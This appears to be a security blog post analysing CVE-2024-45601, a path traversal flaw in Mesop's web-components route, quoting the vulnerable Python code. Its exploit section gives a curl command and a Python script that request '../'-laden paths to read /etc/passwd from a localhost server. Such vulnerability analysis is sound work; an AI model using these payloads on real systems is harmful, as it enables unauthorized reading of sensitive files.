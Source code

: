 ```yaml
---
layout: post
title: CVE-2024-45601: Path traversal
date: 2024-11-01
categories: ["1-Day-Analysis", "Python", "CVE-2024-45601"]
---
```


# Sumary

Path Traversal is vulnerability allow attacker able read any file on the system such as `/etc/passwd`. In the CVE-2024-45601, code use `os.path.join(os.getcwd(), path)` without any validate path, so this is lead to vulnerability path traversal. 

# Analysis Code

In the source with input `/{WEB_COMPONENTS_PATH_SEGMENT}/<path:path>` attacker can insert with url: `/{WEB_COMPONENTS_PATH_SEGMENT}/../../../../../../../../etc/passwd` then path = `../../../../../../../../etc/passwd`.

```
@app.route(f"/{WEB_COMPONENTS_PATH_SEGMENT}/<path:path>")
  def serve_web_components(path: str):
    if not is_file_path(path):
      raise MesopException("Unexpected request to " + path)
    serving_path = (
      get_runfile_location(path)
      if has_runfiles()
      else os.path.join(os.getcwd(), path)
    )
    return send_file_compressed(
      serving_path,
      disable_gzip_cache=disable_gzip_cache,
    )

def is_file_path(path: str) -> bool:
  _, last_segment = os.path.split(path)
  return "." in last_segment
```

After, code will call function `is_file_path(path)` to check path is valid or not. 

```
def is_file_path(path: str) -> bool:
    _, last_segment = os.path.split(path)
    return "." in last_segment
```

However, function `is_file_path` is just check `.` in the path, it is not prevent vulnerability path traversal. 

Handle path

```
serving_path = (
  get_runfile_location(path)
  if has_runfiles()
  else os.path.join(os.getcwd(), path)
)
```

```
def get_runfile_location(identifier: str) -> str:
    if runfiles.Create() is None:
        current_file_dir = os.path.dirname(__file__)
        return os.path.join(
            current_file_dir, "../" + identifier[len("mesop/mesop/"):]
        )
    return runfiles.Create().Rlocation(identifier)
```

Function `get_runfile_location(identifier)` will create path base on `identifier` but not check `../` in the path. 

If `has_runfiles()` return `True` function `get_runfile_location(identifier)` will create path. However, if return `False` serving_path will create path with `os.path.join(os.getcwd(), path)` and dont have any validate. 

After serving_path is created, file will send to user via `send_file_compressed` function. If file is sensitive data, user can be read sensitive information. 

# Exploit

To the exploit vulnerability path traversal, i can use curl or code python

With curl 

```
curl -X GET "http://localhost:5000/WEB_COMPONENTS_PATH_SEGMENT/../../../../../../etc/passwd"
```

With exploit via python code: 

```
import requests

# Application URL with the path traversal endpoint
base_url = "http://localhost:5000"  
path_segment = "WEB_COMPONENTS_PATH_SEGMENT" 

# Path traversal payload
payload_path = "../../../../../../etc/passwd"

# Create the full URL with the path traversal payload
exploit_url = f"{base_url}/{path_segment}/{payload_path}"

# Send the GET request to the server
try:
    response = requests.get(exploit_url)

    # Check and print the result
    if response.status_code == 200:
        print("Path traversal successful! Contents of /etc/passwd:")
        print(response.text)
    else:
        print(f"Request failed with status code: {response.status_code}")
        print("The application may have protected against path traversal.")
except requests.exceptions.RequestException as e:
    print(f"An error occurred while sending the request: {e}")
```
